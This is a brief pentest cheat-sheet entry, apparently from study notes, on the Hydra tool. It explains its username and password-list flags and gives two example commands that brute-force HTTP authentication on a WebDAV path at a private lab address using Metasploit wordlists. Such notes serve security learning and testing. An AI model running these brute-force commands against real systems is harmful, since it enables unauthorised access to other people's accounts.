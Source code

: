 # 🐉 Hydra
- Use to crack various protocol from
  FTP, SSH and Web authentication forms
- -L : file with usernames
- -P : file with passwords
- Example
  ```bash
  hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.2.17.124 http-get /webdav/
  ```
  ```bash
  hydra -l admin -P /usr/share/wordlists/metasploit/common_passwords.txt 10.2.17.124 http-get /webdav/
  ```

